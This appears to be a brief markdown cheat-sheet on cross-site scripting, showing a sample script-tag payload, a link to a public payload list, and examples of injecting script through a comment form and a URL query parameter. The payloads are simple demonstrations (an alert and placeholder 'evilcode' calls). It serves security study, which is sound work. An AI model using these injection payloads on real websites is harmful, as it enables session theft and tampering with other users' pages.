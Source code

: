 # XSS

## XSS payload

Example :

* N°1 : ```<script\x20type="text/javascript">javascript:alert(1);</script>```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

## Formulaire

Insert in form the following lines :
    ```<!-- Normal comment--><p>Your comment goes here </p> <!--Malicious comment--><p><script>evilcod()</script></p> ```

Results in source code :
![](img/xss1.png)

## URL
Here's a quick example of an URL with malicious javascript included:
```<https://somewebsite.com/titlepage?id=> <script> evilcode() </script> ```

Results in website :
![](img/xss2.png)



